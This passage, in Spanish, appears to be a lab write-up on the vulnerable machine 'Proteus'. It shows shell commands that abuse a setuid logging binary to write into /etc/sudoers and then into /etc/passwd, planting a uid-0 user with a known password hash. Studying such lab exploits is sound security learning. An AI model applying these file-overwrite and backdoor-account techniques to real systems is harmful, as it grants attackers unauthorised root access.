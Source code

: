 Tenemos que considerar la cadena a añadir, *www-data ALL=(ALL) ALL*, tiene
una longitud de 22 bytes. Lo completamos con '#', símbolo de comentario, para
que el nombre del archivo no interfiera.

Probamos en nuestra máquina virtual alternativa:

```bash
$ a="www-data ALL=(ALL) ALL"
$ b="$(for i in {0..433}; do echo -n ' ';done)"
$ c="#/etc/sudoers"
$ d="$a""$b""$c"
$ ./admin_login_logger "$d"
```

Y todo parece funcionar bien. Sin embargo, *sudo* se queja:
```bash
$ su www-data
$ sudo
>>> /etc/sudoers: syntax error near line 26 <<<
sudo: parse error in /etc/sudoers near line 26
sudo: no valid sudoers sorces found, quitting
```

Analizando con *hexdump* encuentro que antes de insertar *www-data* se insertan
un par de bytes *0x00*.

Vamos a probar otro camino: crear un nuevo usuario con *uid:0* y *gid:0*,
insertando una línea en el archivo */etc/passwd*. Por
ejemplo, usuario *prueba* contraseña *toor*. En local, editamos estos dos
ficheros, *passwd.txt* y *adduser.sh*:

```bash
$ nano passwd.txt
```

> prueba:$6$UgoqxSRk$DYvp0RIByTI19tXoYvNBtO7S87HkiuvtNaWF6M1UTSncWIG6JG3xhlr9CSpLpu1bGJPTNAMhdLKngxGVz6GI.1:0:0:prueba:/root:/bin/bash
> #
>
>

```bash
$ nano adduser.sh

#! /bin/bash
#a="prueba:x:0:0:prueba:/root:/bin/bash \n#"
a=$(cat passwd.txt)
b="$(for i in {0..320}; do echo -n ' ';done)"
c="#/etc/passwd"
d="$a""$b""$c"
/home/malwareadm/sites/proteus_site/admin_login_logger "$d"
```

Utilizando *nc* los copiamos a la máquina *Proteus* y posteriormente, ejecutamos
el script *adduser.sh*. Lo hacemos todo en la carpeta */home/malwareadm/samples*
que es en la que tenemos permiso de escritura.
